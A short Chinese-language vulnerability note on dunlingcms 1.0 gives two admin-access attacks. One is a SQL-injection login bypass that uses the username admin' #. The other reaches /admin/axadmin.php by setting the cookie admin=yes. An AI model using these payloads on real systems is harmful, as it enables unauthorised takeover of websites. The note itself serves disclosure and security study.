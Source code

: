 ### dunlingcms（盾灵）

```
版本信息：1.0
```

#### 万能密码登录

随便输入账号密码抓包

![image-20221207170438278](images/image-20221207170438278.png)

把用户名改为

```
admin' #
```

![image-20221207170504632](images/image-20221207170504632.png)

成功登录到后台

![image-20221207170555952](images/image-20221207170555952.png)

#### 越权登录后台

访问后台页面

```
/admin/axadmin.php
```

然后将cookie改为admin=yes

成功越权进入后台

![image-20221207170842017](images/image-20221207170842017.png)